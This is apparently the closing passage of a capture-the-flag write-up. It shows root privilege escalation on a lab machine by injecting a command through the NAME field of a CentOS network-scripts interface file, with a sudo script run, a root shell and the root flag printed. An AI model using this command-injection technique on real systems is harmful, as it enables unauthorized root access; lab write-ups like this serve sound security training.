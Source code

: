 ```bash
done
  
/sbin/ifup guly0
```

- `/etc/sysconfig/network-scripts/ifcfg-guly`:

```bash
$ cat /etc/sysconfig/network-scripts/ifcfg-guly
DEVICE=guly0
ONBOOT=no
NM_CONTROLLED=no
NAME=ps /tmp/foo
PROXY_METHOD=asodih
BROWSER_ONLY=asdoih
BOOTPROTO=asdoih
```

The thing is, as mentionned on this website: [Redhat/CentOS root through network-scripts](https://seclists.org/fulldisclosure/2019/Apr/24), **incorrect whitespace filtering on the NAME attribute leads to code execution**.

## Root

```bash
$ sudo /usr/local/sbin/changename.sh
interface NAME:
random bash
interface PROXY_METHOD:
random
interface BROWSER_ONLY:
random
interface BOOTPROTO:
random
[root@networked network-scripts]# id            
id
uid=0(root) gid=0(root) groups=0(root)
[root@networked network-scripts]# cat /root/root.txt
cat /root/root.txt
0a8ecda83f1d81251099e8ac3d0dcb82
[root@networked network-scripts]# 
```

___

## Useful links

- [Hacker's Grimoire - File upload bypass](https://vulp3cula.gitbook.io/hackers-grimoire/exploitation/web-application/file-upload-bypass)
- [Redhat/CentOS root through network-scripts](https://seclists.org/fulldisclosure/2019/Apr/24)